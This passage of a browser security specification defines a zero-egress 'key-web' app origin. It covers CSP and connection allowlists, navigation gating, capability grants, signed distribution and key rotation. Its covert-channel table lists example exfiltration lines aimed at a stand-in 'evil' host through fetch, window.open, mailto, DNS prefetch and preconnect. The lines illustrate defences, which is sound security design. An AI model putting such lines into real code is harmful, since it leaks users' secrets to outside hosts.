 │     isolation                 StoragePartition, COOP/COEP                  │
 └────────────────────────────────────────────────────────────────────────────┘
```

### 2.3 Default Content Security Policy (L1)

The UA **MUST** enforce the following policy on every key-web response: documents, workers, and service workers. It is added *in addition to* any policy the app supplies, so an app can only tighten it.

```http
Content-Security-Policy: default-src 'self';
  script-src 'self' 'wasm-unsafe-eval';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: blob:;
  media-src 'self' data: blob:;
  font-src 'self' data: blob:;
  connect-src 'self' data: blob:;
  worker-src 'self' blob:;
  frame-src 'self' blob:;
  fenced-frame-src 'none';
  manifest-src 'self';
  object-src 'none';
  base-uri 'none';
  form-action 'none';
  frame-ancestors 'self';
  require-trusted-types-for 'script'
```

**Relation to the design-discussion draft.** The draft was `default-src 'self'; connect-src 'none'; img-src 'self' data: blob:; form-action 'none'; navigate-to 'none'`.

| Draft directive | Normative | Reason |
|---|---|---|
| `default-src 'self'` | kept | n/a |
| `connect-src 'none'` | `connect-src 'self' data: blob:` | `'self'` resolves to `key-web://<id>.key`. That origin is served by a **non-network** loader from the local bundle, so it adds no egress. `'none'` would break `fetch('./data.json')`. Network egress is closed by L2 regardless. Apps **MAY** tighten to `'none'` themselves. |
| `img-src 'self' data: blob:` | kept | n/a |
| `form-action 'none'` | kept | n/a |
| `navigate-to 'none'` | **removed, replaced by L3** | `navigate-to` is **not implemented** in Chromium. It is absent from `network::mojom::CSPDirectiveName` in M160. An unknown directive is ignored, so relying on it would give *false* assurance. |
| *(absent)* | **L2 Connection-Allowlist** | CSP does not govern DNS prefetch, `<link rel=preconnect>`, or WebRTC ICE. |

Compared with the stock IWA policy, which allows `connect-src 'self' https: wss: blob: data:` and `img-src … https:`, this policy **removes every network source**. That difference is the substance of "less privileged than a website".

### 2.4 Connection-Allowlist (L2)

The UA **MUST** attach the following enforced allowlist to every key-web document and worker response, as parsed headers (not as text the app could influence):

```http
Connection-Allowlist: (response-origin);redirects=block;webrtc=block
```

- `response-origin` resolves to `key-web://<id>.key`, which is not a network endpoint. The effective network allowlist is therefore **empty**.
- `webrtc=block` causes the UA to refuse the P2P socket and mDNS responder interfaces to the frame.
- `redirects=block` blocks any redirect-based laundering.
- The network service enforces the allowlist per document through its network-restrictions ID. This covers **host resolution, socket preconnect, prefetch, and WebTransport**, which are exactly the paths CSP misses.
- App-supplied `Connection-Allowlist*` and `Allow-Connection-Allowlist-From` headers **MUST** be stripped (L5).
- Report-only allowlists **MUST NOT** be used, because reporting is itself an egress.
- Tier 1 grants (§2.12) are materialized by adding URL patterns to this list.

> **Engine note.** In M160, `Connection-Allowlist` is an implemented, default-enabled feature. Its mojom describes it as a prototype whose design is in flux. Conformance tests (THREAT-MODEL §5) **MUST** pin its behaviour.

### 2.5 Navigation Gate (L3)

`navigate-to` doesn't exist, so outbound navigation is policed by the UA's navigation machinery instead.

| Rule | Requirement |
|---|---|
| **NG1** | Navigations within the same `key-web://<id>.key` origin are unrestricted. |
| **NG2** | Any navigation *initiated by* a key-web context toward another origin is **outbound**. That includes `location`, `<a>`, `window.open`, `<form target>`, `<meta http-equiv=refresh>`, the `Refresh` header, `clients.openWindow`, and speculation rules. It also includes other `key-web` origins and external protocols (`mailto:`, `tel:`, custom schemes). |
| **NG3 (Static Link Rule)** | An outbound navigation is **static** when its canonical destination URL is byte-equal to an entry in the signed manifest's `external_links` (§2.11.3). The UA **MUST** also see transient user activation and an `<a>` element as initiator. A static navigation **MAY** proceed without a prompt. Static links are fixed at signing time, so they **cannot encode runtime data**. |
| **NG4 (Dynamic links)** | Every other outbound navigation **MUST** have transient user activation and **MUST** pass through a browser-owned confirmation that shows the **complete** destination URL, untruncated and with query and fragment highlighted, plus Open / Copy / Cancel. Without activation it is blocked silently, with a console message. |
| **NG5** | Outbound navigations **MUST** open a new top-level browsing context with `noopener` and `Referrer-Policy: no-referrer`. The initiator origin **MUST** be reported as opaque. |
| **NG6** | Same-origin `blob:` and `data:` downloads are allowed with user activation, since they go to local disk. A download of an external URL is an outbound navigation. |
| **NG7** | Speculative prefetch or prerender of outbound URLs **MUST NOT** occur. |
| **NG8** | Inbound navigation (anyone linking *to* a key-web URL) is unrestricted. `COOP: same-origin` severs any opener relationship. |
| **NG9** | `external_links` **SHOULD** be capped at 64 entries, because choosing among N static links leaks at most log₂N bits per user click (THREAT-MODEL §T6). |
| **NG10** | A **name URL** destination (§1.7) is outbound until resolved. After resolution (§1.7.5), if it yields the initiator's own K_app, it is NG1 (same-origin). Otherwise NG3/NG4 apply to the *name URL as written*, so `external_links` may list name URLs. Resolution triggered by a Tier 0 document happens in the UA, and the document never learns the resolution result. |

### 2.6 Response-header sanitizer (L5)

The key-web loader **MUST** remove the following from app-supplied bundle responses before policy injection:

| Stripped header | Why |
|---|---|
| `Report-To`, `Reporting-Endpoints`, `NEL` | The Reporting API uploads to arbitrary endpoints, which is an egress channel. |
| `report-uri` and `report-to` directives inside app `Content-Security-Policy` | Violation reports are an egress channel, and a crafted violation can encode data in `blocked-uri`. |
| `Content-Security-Policy-Report-Only` | Report-only policies exist to report. |
| `Connection-Allowlist`, `Connection-Allowlist-Report-Only`, `Allow-Connection-Allowlist-From` | Only the UA sets the allowlist. A second list would also trigger M160's `kMoreThanOneList` handling. |
| `Link` | `rel=preconnect`, `dns-prefetch`, `preload`, and `modulepreload` hints. Same-origin preload is harmless but has no value here, so the whole header is dropped. |
| `Refresh` | A navigation vector. It is routed through L3 anyway, but stripped for defense in depth. |
| `Speculation-Rules`, `Supports-Loading-Mode` | Prefetch and prerender vectors. |
| `Set-Cookie`, `Accept-CH`, `Critical-CH`, `Alt-Svc`, `Strict-Transport-Security` | Meaningless for a non-network origin. |
| `Permissions-Policy`, `Cross-Origin-*`, `Referrer-Policy`, `Origin-Agent-Cluster` | Replaced by UA values (§2.7, §2.8). Apps tighten the permissions policy through the manifest. |

### 2.7 Permissions Policy baseline (L4)

| Allowed to `self` in Tier 0 | Reason |
|---|---|
| `fullscreen`, `picture-in-picture`, `screen-wake-lock`, `autoplay`, `gamepad`, `keyboard-map` | Local presentation or input only. |
| `clipboard-write` (with user activation) | User-mediated local egress. |
| `cross-origin-isolated` | Needed for WASM threads. All content is same-origin anyway (§2.8). |

| Denied (`()`) in Tier 0, grantable in Tier 1 | Reason |
|---|---|
| `camera`, `microphone`, `display-capture`, `geolocation`, `accelerometer`, `gyroscope`, `magnetometer`, `ambient-light-sensor` | Sensitive ingress. Captured data could later be exfiltrated under a Tier 1 grant. |
| `bluetooth`, `usb`, `hid`, `serial`, `midi` | **Local-radio and peripheral egress.** A BLE peer or a networked USB or MIDI device is a destination. |
| `clipboard-read`, `local-fonts`, `idle-detection`, `window-management` | Ingress and fingerprinting. |
| `web-share` | One-shot user-mediated egress (Tier 1a). |
| `notifications` (permission) | Notification images are fetched by the UA, which is an egress, and a notification enables Push. |

| Denied with no grant path for key-web (use Tier 2) | Reason |
|---|---|
| `direct-sockets`, `controlled-frame`, and every `[IsolatedContext]` feature | Tier 2 only. |
| `payment`, `publickey-credentials-*`, `identity-credentials-get`, `otp-credentials` | Network-backed ceremonies. A WebAuthn PRF-based local-secret capability is future work (§2.11). |
| `encrypted-media` | EME license servers are network endpoints. |
| `browsing-topics`, `attribution-reporting`, `run-ad-auction`, `join-ad-interest-group`, `private-state-token-*`, `shared-storage*`, `storage-access` | Ad and tracking surfaces, with no purpose here. |

UA-internal egress on the app's behalf **MUST** also be closed for Tier 0:

- **Remote speech-synthesis voices:** only local voices are allowed, because remote voices send the text to a server.
- **Cloud speech recognition.**
- **Background Sync, Periodic Background Sync, and Push:** they are wake-ups without a purpose under zero egress, and Push requires a push-service endpoint.

### 2.8 Isolation headers (L6)

The UA **MUST** inject:

```http
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
Cross-Origin-Resource-Policy: same-origin
Origin-Agent-Cluster: ?1
Referrer-Policy: no-referrer
X-DNS-Prefetch-Control: off
X-Content-Type-Options: nosniff
```

- **COOP `same-origin`** is mandatory. Without it, an `https://` page that opened a key-web app in a popup would keep a `WindowProxy`, and the app could `postMessage` secrets to a networked opener.
- **COEP `require-corp`** makes the context cross-origin isolated (`crossOriginIsolated === true`). This is the same *isolation level* IWAs use without IWA's *isolated-context* level. The UA **MUST** make sure that `ShouldUrlUseApplicationIsolationLevel(key-web URL)` returns `false`.
- **`X-DNS-Prefetch-Control: off`** turns off Blink's `<link rel=dns-prefetch>` path at the source. It is irreversible per document. `<link rel=preconnect>` does **not** honor this header in M160, which is why L2 is load-bearing.

### 2.9 Storage partitioning and quotas

1. **Key-scoped partition.** Each key-web origin **MUST** get its own `StoragePartition`.
   - Its partition domain is `"k" ‖ base64(H256("key-web-partition/v1" ‖ origin-serialization))`.
   - It is persistent, with an empty partition name.
   - Updates and K-SAID key rotations keep the origin, and therefore the data.
2. **Tier 0 quota.** Storage is best-effort and capped at **64 MiB** per origin by default. The key-web global pool defaults to `min(2 GiB, 5% of free disk)`.
3. **Keep.** A browser-owned "Keep" action, never app-triggered, marks the app persistent:
   - `navigator.storage.persist()` resolves `true` only for kept apps.
   - Kept apps get the normal site quota.
4. **Eviction.** Apps that are not kept are evicted LRU after **30 days** without a visit (UA-configurable), or under pool pressure. Kept apps are never evicted without user action.
5. **Forget app** deletes the partition, the HWM (§1.6.3), all grants, and all cached releases.

### 2.10 Covert-channel analysis

The table rates each channel's **residual** risk after all layers are applied.

| # | Channel | Example | Closed by | Residual |
|---|---|---|---|---|
| C1 | `fetch`, XHR, EventSource | `fetch('https://evil/?d='+x)` | L1 `connect-src`, L2 | None |
| C2 | `navigator.sendBeacon`, `fetch(keepalive)`, `<a ping>` | Beacon on `pagehide` | L1 `connect-src`, L2 | None |
| C3 | WebSocket / WebTransport | `new WebSocket('wss://evil')` | L1, L2 (WebTransport checked in the network context) | None |
| C4 | Subresource URL encoding | ``, CSS `url()`, `@import`, `@font-face`, SVG `<image href>`, `<video src>` | L1 `img/style/font/media-src` | None |
| C5 | **DNS prefetch** | `<link rel=dns-prefetch href=//<data>.evil>` | §2.8 `X-DNS-Prefetch-Control: off`, plus **L2** (host resolution restricted per document) | None |
| C6 | **Preconnect** | `<link rel=preconnect href=//<data>.evil>` | **L2 only.** Blink's preconnect path ignores DNS-prefetch control, and the browser hands it to the preconnect manager. The network context restricts socket preconnects by network-restrictions ID. | None (in Layer A, depends on Connection-Allowlist; see Blueprint §3.6) |
| C7 | **WebRTC STUN/ICE/TURN, mDNS** | ICE candidate gathering to `stun:<data>.evil` | L2 `webrtc=block` (P2P socket manager and mDNS binders refused). Layer A additionally sets IP handling to `disable_non_proxied_udp`. | None |
| C8 | **`window.open` / `location` URL exfil** | `window.open('https://evil/?'+secret)` | L3 NG2–NG5 | Low: user-approved dynamic links. The user sees the full URL. |
| C9 | Static-link choice | Choosing one of N signed links leaks log₂N bits per click | NG3 + NG9 cap | Very low: user-click-rate-limited, at most 6 bits per click |
| C10 | Form submission | `<form action=https://evil>` | L1 `form-action 'none'`, L3 | None |
| C11 | Meta refresh / `Refresh` header | `<meta http-equiv=refresh content="0;url=https://evil/?d">` | L3 (+ L5 strips the header) | Same as C8 |
| C12 | Service Worker | SW `fetch()` to network, `clients.openWindow` | Worker responses carry CSP + Connection-Allowlist (§2.3–2.4). `openWindow` goes through L3. | None |
| C13 | Push / Background Sync / Periodic Sync | Wake up and send later | §2.7 denied | None |
| C14 | **Reporting API, NEL, CSP reports** | `Reporting-Endpoints: x="https://evil"` | L5 strips the headers and directives | None |
| C15 | Speculation rules / prerender | `<script type=speculationrules>` | L3 NG7, L2 (prefetch is restricted in the network context), L5 | None |
| C16 | External protocols | `location='mailto:x@evil?body='+secret` | L3 NG4 | Low (user sees the URL) |
| C17 | Notifications | Notification `image` URL fetched by the UA | §2.7 denied | None |
| C18 | Local-radio / peripheral egress | Web Bluetooth to a nearby attacker device, WebUSB, MIDI SysEx | §2.7 denied (Tier 1 grant only) | None in Tier 0 |
| C19 | Opener / `postMessage` to a networked page | App opened via `window.open` from `https://evil` | L6 COOP `same-origin`, `frame-ancestors 'self'` | None |
| C20 | Embedding by a networked page | `https://evil` frames the app and reads `postMessage` | `frame-ancestors 'self'` | None |
| C21 | Cross-app laundering | App A sends data to key-web app B, which holds a Tier 1 relay grant | No inter-origin channel in Tier 0: COOP, frame-ancestors, origin-scoped `BroadcastChannel`. Tier 1d channels are explicit. Dynamic links to B are gated by L3. | Low |
| C22 | Timing / CPU / memory contention to a **co-resident colluder** | Modulating CPU load, read by another tab | Site-per-key process isolation. *Not closable in general.* | **Medium (local only).** Needs a colluding receiver on the same device that itself has egress. Bandwidth is limited by contention measurement. |
| C23 | Storage-pressure signalling to a colluder | Filling the quota pool | Per-origin cap, global pool | Low (local only) |
| C24 | Physical side channels | Ultrasonic audio, screen-displayed QR codes, LED blinking | Out of scope (§0.2) | Residual, physical proximity |
| C25 | UA-internal egress | Remote TTS voices, cloud spellcheck, page translation | §2.7 (TTS/ASR). Translate and spellcheck are user settings sending to fixed vendor endpoints, not attacker-addressable. | Low |
| C26 | User-mediated egress | Copy and paste, downloads, print, drag-out | By design: requires the user to act | Accepted |

**Invariant.** In Tier 0, every residual channel is either (a) carried out by the user who can see it, or (b) local-only and requires a colluding, independently networked receiver.

### 2.11 Capability Tier Ladder

| Tier | Name | Entry | Grants | Network egress |
|---|---|---|---|---|
| **0** | **Drive-by Zero-Exfil** | Any link, QR code, or file, with **no prompt** | Compute, render, key-scoped storage (64 MiB best-effort), same-origin SW, static links, user-activated downloads, clipboard write, file *open* pickers (ingress), file *save* pickers (local egress), print | **None** |
| **1a** | One-shot user-mediated egress | Per-use browser-owned confirmation that shows the payload or destination | Web Share, `mailto:`, dynamic outbound links | One transmission, visible to the user |
| **1b** | Scoped network capability | `xe-cap` grant via a browser-owned prompt | `connect` to specific URL patterns (for example a sync relay); `p2p` swarm/topic membership | Only to the granted targets, metered |
| **1c** | Local resource capability | `xe-cap` grant | Persistent directory handles, camera, mic, location, sensors, notifications, specific BLE/USB/HID/serial devices | Only to the granted device, where the device is a destination |
| **1d** | Inter-app channel | `xe-cap` grant naming both origins | A message port between `key-web://A.key` and `key-web://B.key` | None, but the receiver's grants apply (shown in the prompt) |
| **2** | **Privileged IWA** | Explicit IWA install ceremony | `isolated-app://` APIs (Direct Sockets, Controlled Frame, …) | IWA defaults |

#### 2.11.1 Rules

1. **Maximum surface is signed.** An app can only request capabilities declared in its signed manifest (§2.11.3). Reviewers can therefore audit the *maximum* egress surface before anyone runs the app.
2. **No ambient upgrade.** An update that adds declarations does not change existing grants. New declarations need new consent.
3. **Tier 2 is a different origin.** Promotion to an IWA creates `isolated-app://<same-id>`. Data moves only through a UA-mediated, user-confirmed export and import.
4. **Prompts are browser-owned.** They are drawn outside the content area and cannot be overlaid. Each one names the destination's host *and* the app's petname or ID.

#### 2.11.2 Capability lifecycle



#### 2.11.3 Key-Web Manifest

The Key-Web Manifest is a signed bundle resource at `key-web://<id>.key/.well-known/key-web.json`.

```json
{
  "key_web": 1,
  "name": "Notes",
  "short_name": "Notes",
  "external_links": [
    "https://example.org/notes/help",
    "https://example.org/notes/privacy"
  ],
  "capabilities": [
    {
      "name": "sync",
      "kind": "connect",
      "targets": ["wss://relay.example.org/notes/*"],
      "why": "Sync your notes between your own devices (end-to-end encrypted)."
    },
    {
      "name": "lan-share",
      "kind": "p2p",
      "proto": "webrtc",
      "why": "Share a note with someone on the same network."
    }
  ],
  "publisher": { "pub": "<K_pub kw-id>", "slug": "notes" },
  "claims": ["dns:notes.example.org", "ens:notes.example.eth"]
}
```

`publisher` is the app-side half of the bidirectional publisher binding (§1.7.3). `claims` are legacy-style DNS and ENS hints (§4.8).

### 2.12 `xe-cap v1` capability grants

Grants are **capabilities**, not origin permissions, in the Peergos and object-capability sense:

- A grant names exactly what it allows.
- It is bound to the subject origin.
- It is unforgeable, because the UA signs it.
- It can be attenuated but never amplified.
- It is revocable.

The **token never enters the app's process.** The app holds only an opaque handle, so a compromised app can't leak or replay its grant.

```cddl
xe-cap = {
  "v"      : "xe-cap/1",
  "iss"    : bstr .size 32,          ; UA profile grant-signing key (Ed25519)
  "sub"    : tstr,                   ; "key-web://<id>.key"
  "cap"    : capability,
  "nbf"    : uint,
  ? "exp"  : uint,
  "nonce"  : bstr .size 16,
  ? "parent": bstr .size 32,         ; H256 of parent cap (attenuated delegation)
  "consent": { "at": uint, "release": bstr .size 64, "decl": tstr },  ; bundleHash + manifest decl name
  "sig"    : bstr                    ; Ed25519 over dCBOR(cap-without-sig), ctx "xe-cap/1\0"
}

capability = connect-cap / p2p-cap / file-cap / device-cap / channel-cap / egress-once-cap

connect-cap     = { "kind": "connect", "targets": [+ tstr],   ; URLPattern strings
                    ? "methods": [+ tstr], ? "budget": budget }
p2p-cap         = { "kind": "p2p", "proto": "webrtc" / "iroh" / "hypercore" / "libp2p",
                    "topic": bstr, ? "peers": [+ bstr], ? "budget": budget }
file-cap        = { "kind": "file", "handle": tstr, "mode": "read" / "readwrite" }
device-cap      = { "kind": "device", "api": tstr, "filter": any }
channel-cap     = { "kind": "channel", "peer": tstr, "dir": "send" / "recv" / "both" }
egress-once-cap = { "kind": "once", "what": "share" / "mailto" / "link", "digest": bstr }
budget          = { ? "bytesPerDay": uint, ? "requestsPerHour": uint }
```

**Materialization.**

- A `connect-cap` adds its `targets` to the document's Connection-Allowlist (L2) and its origins to `connect-src` (L1) on the next document load. The UA **SHOULD** reload the app after a grant.
- A `p2p-cap` with `proto: webrtc` sets `webrtc=allow` only for frames holding the handle. The UA **SHOULD** route ICE through a UA-owned TURN or relay policy, so the peer set is constrained.
- Non-WebRTC P2P protocols are provided by a UA- or SuperFrame-hosted **transport bridge**, and the app sees a `MessagePort`.

**Attenuation.** A derived cap's `targets` **MUST** be a subset of its parent's: syntactically, a subset of URLPattern strings. Its `exp` must be no later and its budget no larger.

**Revocation** takes effect immediately:

- The UA closes live connections (renderer restart if needed).
- It removes the handle.
- It drops the allowlist entries on the next load.

**Audit.** The UA keeps a per-app ledger (time, capability, bytes, destination host) that the user can view.

---

## 3. Transport-Agnostic Resolution & Unstoppable Distribution

### 3.1 Model

| Object | Size | Authenticated by | Role |
|---|---|---|---|
| **Locator** | under 1 KB | nothing (a hint) | "Where might I find releases for ID X, at least version N?" |
| **Release Manifest** | about 1–4 KB | the ID's current key(s) | Signed head: `(kelSn, seq)`, `bundleHash`, size, chunk Merkle root |
| **Chunk** | 256 KiB | the Merkle root in the Release Manifest | Unit of multi-source transfer |
| **Bundle (`.swbn`)** | any size | Integrity Block v2 + KEL | The release itself, verified in full before use (§1.5) |

### 3.2 Locator

```cddl
locator = {
  "id"       : tstr,
  ? "minKel" : uint,
  ? "minSeq" : uint,
  ? "hash"   : bstr .size 64,       ; pin a specific bundleHash
  ? "src"    : [* source-uri]       ; resolution hints, any order
}
source-uri = tstr   ; https://… | iroh:… | ipfs://<cid> | magnet:?… | hyper://… |
                    ; peergos:… | mdns:_key-web._tcp | file: (UA-local only)
```

A **name URL** (§1.7) is the most human-friendly locator. Its App Record's `loc` supplies the fields below after verification. Locators are also serialized in three ways:

- **As a link:** `key-web://<id>.key/<path>#:~:kw=seq.12,src.<base64url(dCBOR(src))>`. The UA strips the fragment directive (§1.3).
- **As a QR code or NFC tag:** the binary dCBOR locator with a `KW1` prefix.
- **As a file:** `<id>.kwloc`.

A locator is **never trusted**. It can only cause the UA to *look*.

### 3.3 Resolver interface

```webidl
// UA-internal (Layer B) or SuperFrame-internal (Layer A) interface.
interface KeyWebResolver {
  readonly attribute DOMString scheme;                // "https", "iroh", …
  Promise<sequence<Uint8Array>> heads(DOMString id);  // candidate Release Manifests
  Promise<Uint8Array> chunk(Uint8Array merkleRoot, unsigned long index);
  Promise<ReadableStream> whole(Uint8Array bundleHash); // optional fast path
};
```

Resolvers are **untrusted plumbing**. A resolver bug can cause unavailability but never acceptance of bad content.

### 3.4 Resolver catalog

| Resolver | Discovery | Carries | Verification hook | Privacy note |
|---|---|---|---|---|
| **HTTPS content mirror** | `src` hint, or a manifest `update` hint | `/<id>/head.kwrm`, `/<id>/<bundleHash>.swbn`, ranged chunks | Standard (§3.6) | The mirror learns IP + ID. Use several mirrors with jitter. |
| **Iroh** | Node ID + blob hash in `src` | BLAKE3-verified blobs (bao) | Iroh's own verification **plus** our SHA-256 Merkle + bundle check | Peer learns ID |
| **libp2p / IPFS** | CID in `src`, DHT | UnixFS/raw blocks | CID check **plus** ours | DHT lookups are observable |
| **BitTorrent v2 (BEP 52)** | `magnet:` with `btmh` | Per-file SHA-256 Merkle (16 KiB leaves) | BT v2 tree **plus** ours | Swarm membership is public |
| **Hypercore / Hyperdrive** | `hyper://` key | Signed append-only log | Hypercore signature **plus** ours | Peer learns ID |
| **Peergos** | Peergos path, capability link | Encrypted, capability-addressed files | Peergos caps **plus** ours | Server learns little (E2EE) |
| **LAN mDNS** | `_key-web._tcp.local` TXT `id=<id>` | Head + chunks over local HTTP or QUIC | Standard | LAN peers learn ID. Off by default, enabled per network. |
| **USB / file drop** | User picks a file | Whole `.swbn` + `.kwrm` | Standard | None |
| **QR / NFC** | Camera or tap | Locator (or a tiny bundle across animated frames) | Standard | None |

**Transport-native integrity is a performance aid and never a substitute.** Every byte is re-verified against §3.6 and §1.5.

### 3.5 Release Manifest (signed head)

```cddl
release-manifest = {
  "t"         : "kw-release/1",
  "id"        : tstr,
  "kelSn"     : uint,
  "kelTip"    : bstr .size 32,       ; H256 of the latest KEL event (zero bytes for K-ED)
  "seq"       : uint,
  "bundleHash": bstr .size 64,       ; H512 of the unsigned bundle (= M160 verifier's hash)
  "size"      : uint,                ; full .swbn size in bytes
  "chunk"     : { "alg": "sha256-merkle", "size": 262144, "root": bstr .size 32 },
  ? "fresh"   : { "nb": uint, "exp": uint },
  ? "src"     : [* tstr],
  "sigs"      : [+ { "i": uint, "s": bstr }]   ; index into current key set
}
```

Signatures are over `"key-web/release-manifest/v1\0" ‖ dCBOR(manifest without "sigs")`, from at least `kt` current keys.

**Why a separate head?** The Integrity Block signature covers `H512(unsigned bundle)`, so it can't be checked until the whole bundle has arrived. The chunk root also can't go in the bundle's own attributes: the root covers the integrity block, so that would be circular. The small, separately signed head lets a UA authenticate chunks **as they arrive** from many untrusted sources.

### 3.6 Chunking and multi-source verification

- **Chunks:** 256 KiB slices of the **entire `.swbn` file**. The last chunk may be short.
- **Merkle tree:** RFC 6962-style domain separation.
  - Leaf hash: `H256(0x00 ‖ chunk)`.
  - Node hash: `H256(0x01 ‖ L ‖ R)`.
  - An unpaired node is promoted unchanged.
- **Fetch algorithm.** Steps 1–3 run once per resolution; step 4 repeats for each chunk.
  1. Gather heads from all available resolvers.
  2. Verify each head's signature and KEL state.
  3. Pick the greatest `(kelSn, seq)` that is above the HWM.
  4. Request chunks from any sources, in parallel, then:
     - Verify each chunk against its Merkle proof. Proofs are derived from sibling hashes requested alongside the chunk, or recomputed once the leaf set is complete.
     - On mismatch, discard the chunk and down-score the source. After 3 strikes, ban the source for this session.
  5. Assemble the bundle, then run **full** §1.5 verification. `bundleHash` **MUST** equal the head's.
- **Limits.**
  - `size` **MUST NOT** exceed **512 MiB** (UA-configurable).
  - The UA **MUST NOT** download more than `size` bytes for one release.
  - The integrity block is at most 1 MiB, inherited from M160.

### 3.7 Update discovery and anti-freeze

- The UA polls heads in the background, never from app code, on a jittered schedule (default every 6–30 h) and whenever the app is opened online.
- **Gossip.** A UA that serves an app on the LAN or over P2P also serves its HWM head. Freezing a user therefore means eclipsing **every** source, including peers.
- If `fresh.exp` has passed and all reachable sources still report the same head, the UA keeps showing "update overdue". The app is never blocked.

### 3.8 Offline-first release store

- Releases are stored by content address: `bundleHash → .swbn`, deduplicated across IDs.
- **Retention.**
  - Keep the current head and one previous release, the minimum for a user-initiated downgrade.
  - Keep any release that is explicitly pinned.
- **Export.** The UA **SHOULD** offer "Export app": the `.swbn` plus its `.kwrm` head, so the app can be shared by USB or file. It **MAY** offer "Export app + my data" as an encrypted archive.
- The UA's per-ID state: `{ HWM, current bundleHash, kept flag, petname, grants[], kel }`.

### 3.9 Resolution privacy

Fetching a head reveals "this IP is interested in ID X" to the source. Mitigations:

- Batch and jitter background checks.
- Prefer LAN and peers you already know.
- Allow fetching through relays or anonymity networks as a UA setting.
- Never resolve on behalf of a Tier 0 document. Apps cannot trigger resolution of *other* IDs except through user navigation.

---

## 4. Key Rotation, Revocation & Human-Readable Naming

### 4.1 Problem

The key is the origin, and the origin is where user data lives. So:

- **Losing the key** must not orphan data.
- **A stolen key** must not let the thief keep the identity.
- **Retirement** must be explicit and non-destructive.

K-SAID identities solve all three with a **Key Event Log (KEL)**, modelled on KERI.

### 4.2 Key Event Log

```cddl
signed-event = { "e": key-event, "sigs": [+ { "i": uint, "s": bstr }], ? "rcpts": [* receipt] }

key-event = icp / rot / rec / veto / tomb

pubkey  = { "alg": "ed25519" / "p256", "key": bstr }
digest  = bstr .size 32                         ; H256(dCBOR(pubkey))
evhdr   = ( "v": "kw-kel/1", "sn": uint, "p": bstr .size 32 / null, "dt": uint )

icp  = { "t": "icp", evhdr,                     ; sn = 0, p = null
         "k": [+ pubkey], "kt": uint,           ; current signing keys + threshold
         "n": [+ digest], "nt": uint,           ; PRE-COMMITTED next keys + threshold
         ? "g": guardians,
         ? "w": witnesses,
         "auth": "keys-first" / "guardians-final",
         ? "rotDelay": uint,                    ; REQUIRED (>0) iff auth = guardians-final
         "d": bstr .size 32 }                   ; self-digest (§1.4)

rot  = { "t": "rot", evhdr, "k": [+ pubkey], "kt": uint, "n": [+ digest], "nt": uint,
         ? "g": guardians }                     ; k MUST match prior n digests
rec  = { "t": "rec", evhdr, "k": [+ pubkey], "kt": uint, "n": [+ digest], "nt": uint,
         "eff": uint }                          ; eff >= dt + g.delay
veto = { "t": "veto", evhdr, "target": bstr .size 32 }   ; H256 of a pending rot
tomb = { "t": "tomb", evhdr, "reason": tstr, ? "successor": tstr, "lastGood": uint / null }

guardians = { "keys": [+ digest], "gt": uint, "delay": uint }   ; delay >= 604800 RECOMMENDED
witnesses = { "ids": [+ bstr], "wt": uint }
receipt   = { "w": bstr, "s": bstr }            ; witness signature over H256(event)
```

Event digests are `H256(dCBOR(signed-event.e))`. Each event's `p` **MUST** equal the digest of the event before it.

### 4.3 Signing authority

| Event | Signed by | Effect |
|---|---|---|
| `icp` | `kt` of `k` | Establishes the identity. ID = `b32(d ‖ 00 03 02)`. |
| `rot` | `nt` of the **revealed next keys**, where each revealed `pubkey` hashes to a digest in the prior `n` | The revealed keys become current. A new `n` is committed. **Cancels any pending `rec`.** With `guardians-final`, it is effective only after `rotDelay`. |
| `rec` | `gt` of the guardians | Recovery for lost keys. **Pending until `eff`.** A valid `rot` seen before `eff` cancels it. |
| `veto` | `gt` of the guardians | Only valid with `auth = guardians-final`. Cancels a pending `rot` and puts the KEL in the **contested** state, where next-key authority is suspended and only `rec` can advance the KEL. |
| `tomb` | `nt` of the next keys **or** `gt` of the guardians. **Never the current keys alone.** | Terminal (§4.7). |

**Why pre-rotation works.** A thief who steals the *current* signing key can sign releases until the owner rotates. The thief cannot rotate or tombstone, because those need the *next* keys, which are committed only as digests and kept offline. Once the owner rotates, every release signed under the old establishment event loses on ordering (§1.6.1).

**Authority profiles.** The creator chooses at inception, and the choice is shown in the UA's identity details:

| Profile | Who can ultimately win | Good for |
|---|---|---|
| `keys-first` | The holder of the next keys. Guardians can only recover lost keys, and the key holder can cancel. | Solo developers who guard their cold key well |
| `guardians-final` | A guardian threshold. They can veto a rotation during `rotDelay` and then recover. | Teams and community apps, where cold-key theft is the bigger risk |

### 4.4 Witnesses (optional)

If `w` is present, an establishment event (`icp`, `rot`, or effective `rec`) is accepted only with at least `wt` valid witness receipts. Witnesses promise never to receipt two different events at the same `sn`. This raises the cost of **split-view attacks**, where a thief shows different KELs to different users.

### 4.5 KEL validation (normative)

1. `kel[0]` **MUST** be an `icp` whose self-digest equals the ID payload.
2. For each later event:
   - `sn` **MUST** be the previous `sn + 1`.
   - `p` **MUST** be the previous event's digest.
   - Its signatures **MUST** satisfy the authority table (§4.3).
3. Pending events (`rec` before `eff`, and `rot` within `rotDelay` under `guardians-final`) are applied at the UA's current time.
4. The **current key state** is `(k, kt, n, nt, g, kelSn, contested?)` after applying every event that is effective.
5. The UA **MUST** merge the KEL it already holds with incoming KELs. Its own KEL **MUST** be a prefix of the incoming one, unless the incoming one proves duplicity (§4.6).

### 4.6 Duplicity and equivocation

**Duplicity** means two different valid events at the same `sn`. **Equivocation** means two different bundles at the same `(kelSn, seq)`.

When the UA sees either:

1. It **freezes updates** for the ID and keeps running the current accepted release.
2. It shows a security notice that includes the evidence.
3. If witnesses are declared, the branch with at least `wt` receipts wins. Otherwise the UA keeps its first-seen branch until a later `rot` or `rec` resolves the conflict.

### 4.7 Revocation and tombstones

A `tomb` is terminal:

- The UA **MUST** accept no further releases for the ID.
- If `lastGood` is non-null and lower than the current `seq`, the UA **MUST** offer to roll back to `lastGood` without requiring a user override. This is an authorized rollback, because the compromise is acknowledged.
- If `lastGood` is null, the UA **MUST** stop executing the app. It **MUST** keep the app's data and offer export.
- If `successor` is present, the UA **SHOULD** offer a **data migration**, a UA-mediated copy from the old partition into the successor's partition. The user must confirm it, and it is never automatic.
- A tombstone **MUST NOT** delete user data.

**K-ED and K-P256 (simple profile)** have no KEL. A `tomb` signed by the key itself (wrapped as `keyWeb.tomb` in a final release) is accepted. As a result, a thief of a K-ED key can push malicious updates and can tombstone the app. This is the documented reason K-SAID is RECOMMENDED for durable apps.

### 4.8 Human-readable naming (Zooko's triangle)

